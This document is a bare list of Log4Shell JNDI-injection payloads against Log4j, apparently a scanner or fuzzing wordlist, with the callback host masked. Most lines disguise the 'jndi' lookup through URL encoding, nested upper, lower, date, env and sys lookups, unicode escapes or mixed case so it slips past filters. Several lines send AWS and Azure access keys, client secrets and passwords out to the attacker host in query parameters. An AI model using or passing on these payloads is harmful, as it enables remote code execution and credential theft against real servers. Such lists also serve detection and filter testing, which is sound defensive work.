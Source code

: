 %24%7b%24%7bupper:j%7dndi:%24%7bupper:d%7d%24%7bupper:n%7da%24%7blower:s%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-l%7d%24%7b::-d%7d%24%7b::-a%7d%24%7b::-p%7d%24%7b::-s%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-r%7d%24%7b::-m%7d%24%7b::-i%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-d%7d%24%7b::-n%7d%24%7b::-s%7d://****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldap:/****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldaps:/****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:rmi:/****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:dns:/****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldap://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldaps://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:rmi://****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:dns://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'l'%7d%24%7bdate:'d'%7d%24%7bdate:'a'%7d%24%7bdate:'p'%7d%24%7bdate:'s'%7d://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'r'%7d%24%7bdate:'m'%7d%24%7bdate:'i'%7d://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'d'%7d%24%7bdate:'n'%7d%24%7bdate:'s'%7d://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:ldaps://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:rmi://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:dns://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:ldap://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:ldaps://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:rmi://****/z%7d
%24%7b\u006a\u006e\u0064\u0069:dns://****/z%7d
%24%7bjndi:ldap://127.0.0.1#****/z%7d
%24%7bjndi:ldaps://127.0.0.1#****/z%7d
%24%7bjndi:rmi://127.0.0.1#****/z%7d
%24%7bjndi:dns://127.0.0.1#****/z%7d
${jNdi:ldAp://****/Z}
${jnDI:ldApS://****}
${JNDI:Rmi://****}
${JnDi:DNs://****}
${${EnV:ENV_NaME:-j}nDI${EnV:EnV_namE:-:}${ENV:EnV_nAME:-L}Dap${enV:Env_naMe:-:}//****/Z}
${${Env:Env_namE:-j}NDi${eNV:Env_nAMe:-:}${EnV:Env_NamE:-L}DApS${ENv:eNv_name:-:}//****/Z}
${${eNv:ENV_Name:-j}NDi${eNv:eNv_nAmE:-:}${EnV:env_namE:-r}Mi${eNv:Env_namE:-:}//****/z}
${${Env:ENv_nAmE:-J}NdI${eNv:eNv_name:-:}${EnV:EnV_nAmE:-D}Ns${eNV:env_Name:-:}//****/Z}
${JnDi:LDap://****/Z?LeAK=${env:AwS_acceSs_key_Id:-NO_eXIsTS}}
${Jndi:LdAP://****/Z?LeAK=${ENv:AWS_SecREt_AccESS_KEy:-nO_ExIsTS}}
${jNdi:LdAp://****/Z?leAK=${ENV:AMazon_AWS_accESs_keY_Id:-no_EXistS}}
${jndi:LDAP://****/z?LEAK=${enV:amazON_AWs_seCrET_ACCEss_KEy:-No_eXIstS}}
${jnDI:lDaP://****/z?lEAK=${eNV:azUre_clIent_ID:-nO_exists}}
${jndI:LDAP://****/z?LeAK=${enV:AZURe_clIent_secRet:-nO_EXIstS}}
${Jndi:LDAP://****/Z?LEaK=${eNV:AzuRe_userNaMe:-NO_ExisTS}}
${jNDI:LDaP://****/Z?LEAk=${enV:AzuRe_PassworD:-no_EXisTS}}
${jNDi:LDaP://****/Z?LEak=${eNV:MSi_eNdPOInT:-no_eXIsTS}}
${jNDi:LDaP://****/Z?LeaK=${Env:msi_seCrET:-no_eXIsTS}}
${${lOWeR:j}NdI:${lOwER:l}${LoweR:d}A${LOWER:P}://****/z}
${${uPPeR:j}nDi:${upper:l}${upPER:D}A${LOweR:P}://****/z}
${${::-J}${::-N}${::-D}${::-i}:${::-l}${::-D}${::-A}${::-p}://****/z}
${jnd${syS:SYs_NAme:-i}:lDAP:/****/Z}
${J${${:-l}${:-O}${:-w}${:-E}${:-R}:N}Di:LdAp://****/z}
${${DAte:'j'}${DatE:'N'}${dAtE:'d'}${DAtE:'i'}:${dAtE:'l'}${DATe:'d'}${DaTe:'a'}${dAte:'p'}://****/Z}
${${whAT:ever:-j}${SoMe:Thing:-n}${oTHER:tHing:-D}${And:LaST:-I}:LDAp://****/Z}
${${LOWEr:J}nDi:${lOWER:l}${lowEr:d}a${lOWeR:p}${lOWEr:S}://****/Z}
${${uPpeR:j}NDi:${UpPeR:L}${uPPEr:d}A${LOwEr:P}${UppeR:S}://****/Z}
${${LoWER:J}nDI:${Lower:r}${LoWer:m}a${LoWER:I}://****/Z}